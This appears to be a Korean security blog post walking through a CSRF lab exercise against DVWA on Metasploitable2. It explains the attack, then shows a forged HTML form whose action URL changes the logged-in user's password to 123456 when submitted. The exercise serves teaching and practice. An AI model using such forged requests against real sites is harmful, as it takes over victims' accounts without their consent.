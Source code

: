 ```yaml
---
title:  "DVWA 를 활용한 CSRF 실습"
excerpt: "CSRF (Cross Site Request Forgery : 교차 사이트 요청 위조)"
categories: security
tags:
  - [csrf, web-security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```


#### CSRF (Cross Site Request Forgery : 교차 사이트 요청 위조)
* * *
- 공격 대상 : webserver
- Client의 권한을 이용해서 위조된 요청을 web server에 보내는 공격
- 대표적인 사례 : 자동 댓글달기, 좋아요 눌러지기, 비밀번호 변경, 회원 탈퇴 요청, 회원 승급 요청 등등
- 사용자들이 원하지 않았지만 스크립트의 소스 안에 공격자의 의도가 포함되어 있는 상태로 웹서버에 요청이 보내짐
- OWASP 2013년 버전에서는 8위였으나, 2017 버전에는 순위 밖으로 내려감(대응 방법이 많이 나와있어서 심각 수준이 내려감)

#### Metsploitable2 DVWA 실습
* * *
1. vwware-> metasploitable2 실행
2. web browser에서 metasploitable2의 아이피로 접근
3. dvwa 실행 admin / password
4. CSRF 탭에서 비밀번호 변경
![picture 12](/assets/images/20220517-092020.png){: .center}  
5. 개발자 도구에서 46~52 라인 확인
![picture 13](/assets/images/20220517-092404.png){: .center}  

```html
<form action="#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```
6. 비밀번호 변경했을 때 주소를 복사해서 #에 다가 삽입

```html
<form action="http://192.168.5.128/dvwa/vulnerabilities/csrf/?password_current=password&password_new=123456&password_conf=123456&Change=Change#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```

7. 위 내용을 html 파일로 만들어서 실행.

![picture 14](/assets/images/20220517-093611.png){: .center}

1. change를 누르면 비밀번호 변경되고, 로그인된 상태로 웹사이트로 진입
2. logout 하고 변경된 비밀번호로 로그인 되는지 확인